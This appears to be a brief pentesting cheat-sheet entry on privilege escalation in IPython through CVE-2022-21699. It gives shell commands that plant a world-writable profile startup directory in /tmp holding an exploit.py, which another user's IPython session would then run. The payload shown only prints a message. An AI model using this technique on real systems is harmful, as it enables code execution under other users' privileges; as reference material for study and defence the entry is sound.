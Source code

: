 ```yaml
---
title: IPython PrivEsc
desc: Interective Python (IPython) is a command shell for interective computing in multiple programming languages.
tags: [IPython, Python, PrivEsc, Privilege]
alts: [Python-PrivEsc]
render_with_liquid: false
---
```


## [CVE-2022-21699](https://github.com/advisories/GHSA-pq7m-3gw7-gq5x){:target="_blank"}

```sh
# -m: file mode (rwx)
mkdir -m 777 /tmp/profile_default
mkdir -m 777 /tmp/profile_default/startup
echo 'print("stealing your private secrets")' > /tmp/profile_default/startup/exploit.py
```